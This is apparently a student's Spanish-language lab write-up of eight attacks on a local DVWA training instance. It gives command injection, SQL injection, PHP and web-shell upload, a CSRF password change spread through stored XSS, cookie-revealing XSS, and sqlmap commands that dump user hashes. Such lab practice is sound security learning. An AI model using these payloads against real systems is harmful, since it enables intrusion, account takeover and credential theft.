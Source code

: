 Documentación de ataque DVWA


# 1º Ataque

## Descripción del Ataque
Inyectar comandos

### Pasos para Realizar el Ataque:
Entrando en la sección de Comando Injection y ejecutamos el comando:

```bash
8.8.8.8 | ls 
```

### Resultado
Podemos ver la información de los archivo que hay en la raíz

# 2º Ataque

## Descripción del Ataque
Inyectar consultas de sql, como encontrar todos los usuarios que hay en la base de datos

### Pasos para Realizar el Ataque:
En el apartado SQL injection introduzco ' OR '1'='1

### Resultado
Puedo ver todos los usuario con su id almacenados en la base de datos, con su ID, Nombre y Apellido

# 3º Ataque

## Descripción del Ataque
Subir archivo que nos saquen información de la página como por ejemplo un .php

### Pasos para Realizar el Ataque:
Vamos al apartado File Upload y subimos un archivo desde nuestro dispositivo a servidor y que dará la ruta donde se guarda.

ARHCIVO PARA SABER INFORMACIÓN DE PHP
```php
<?php
// Este script proporcionará información detallada sobre el sistema PHP
phpinfo();
?>
<script>
system("ls");
</script>
```

### Resultado

Nos proporciona información php del servidor, en la ruta que se ha subido el archivó.

# 4º Ataque

## Descripción del Ataque
Vamos a implementar una Shell en el servidor para poder ejecutar mejor los comandos

### Pasos para Realizar el Ataque:
Solo tendríamos que subir un archivo shell.php de GitHub como p0wny-shell 
Ir a la url y ejecutar la shell
http://localhost:8800/hackable/uploads/shell.php

### Resultado
Nos proporciona una Shell para ejecutar comandos.

# 5º Ataque

## Descripción del Ataque
Ver las fotos de los usuarios

### Pasos para Realizar el Ataque:
Solo tendríamos que ir a la url /hackeable/users y podemos ver los archivos .jpg de cada usuario

### Resultado
Ver las fotos que han subido los usuarios

# 6º Ataque

## Descripción del Ataque

El objetivo de este ataque es hacer que un usuario cambie su contraseña a una específica sin darse cuenta. Esto se logra mediante el uso de un enlace malicioso que contiene los parámetros necesarios para realizar el cambio de contraseña.

### Pasos para Realizar el Ataque:

1. **Cambiar la contraseña y copiar la URL**:
   - Primero, cambiamos nuestra propia contraseña en la aplicación utilizando la URL siguiente, donde `hola` es la nueva contraseña:
   
   ```url
   http://localhost:8800/vulnerabilities/csrf/?password_new=hola&password_conf=hola&Change=Change#
    ```

2. **Engañar al usuario para que pinche el enlace**:

    - Después, tenemos que conseguir que algún usuario pinche en este enlace para que su contraseña se cambie a la que nosotros queramos.

    Para lograrlo, publicamos un mensaje en la sección de **XSS (Stored)** con un enlace que parezca atractivo para el usuario.

    Como hay una limitación de caracteres, primero publicamos un mensaje normal y luego lo editamos para incluir el contenido malicioso.

```plaintext
txtName=Fifa+25&mtxMessage=%3Chtml%3E%0A%20%20%20%20%3Ca%20href=%22http://localhost:8800/vulnerabilities/csrf/?password_new=hola&password_conf=hola&Change=Change#%22%3EDescargar%3C/a%3E+&btnSign=Sign+Guestbook
```
3. **Cuando el usuario pinche en el enlace tendrá la contraseña cambiada, tan solo tendríamos que cambiarla de nuevo para que no pueda recuperarla el usuario, que la ha cambiado**

# 7º Ataque

## Descripción del Ataque
Con seguir la cookie de esta sesión

### Pasos para Realizar el Ataque:

Añadir un mensaje en le apartado **XSS (Stored)** y en el mensaje añadirmos: 
<script>alert(document.cookie)</script>

### Resultado

Nos saldrá una alerta con la información de al cookie

# 8º Ataque

## Descripción del Ataque
Con seguir tablas y usuarios, con su contraseña

### Pasos para Realizar el Ataque:

- El primer paso es obtener las tablas de la base de datos utilizando una inyección SQL. Ejecutamos el siguiente comando para listar todas las tablas presentes en la base de datos `dvwa`:

```bash 

sqlmap -u "http://10.0.2.51:8800/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=t7rn1e3gto9jcquf82kntsrbk3" -D dvwa --tables

```
- Para obtener los usuarios y las contraseñas almacenadas en la base de datos, ejecutamos el siguiente comando que también aplicará un diccionario (wordlist.txt) para descifrar las contraseñas:

```bash
sqlmap -u "http://10.0.2.51:8800/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=t7rn1e3gto9jcquf82kntsrbk3" -D dvwa -T users --dump
```

### Resultado

- Nos dará resultado toda la información de la tabla usuarios

| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2024-10-22 17:02:34 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2024-10-22 17:02:34 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2024-10-22 17:02:34 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2024-10-22 17:02:34 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2024-10-22 17:02:34 | 0            |
